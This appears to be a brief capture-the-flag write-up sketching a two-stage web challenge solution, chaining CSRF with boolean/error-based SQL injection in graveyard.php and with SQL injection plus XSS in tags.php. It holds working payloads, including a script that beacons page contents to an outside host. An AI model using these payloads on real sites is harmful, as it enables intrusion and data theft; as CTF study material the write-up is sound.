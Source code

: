 1. first half: csrf -> boolean based error sqli in grave/graveyard.php e.g. `0 UNION SELECT 1,IF(ORD(SUBSTRING(flag, 2, 1))=0x75, exp(100000), 1),1,1,1 FROM flag1;#`
  - xss on another page to read result
2. second half: csrf -> sqli+XSS in tags/tags.php url param
  -  `UNION SELECT CONCAT(flag,"""><script>navigator.sendBeacon(""//hc.lc/log2.php"",document.body.innerHTML)</s\x63ript>") FROM flag2;#`
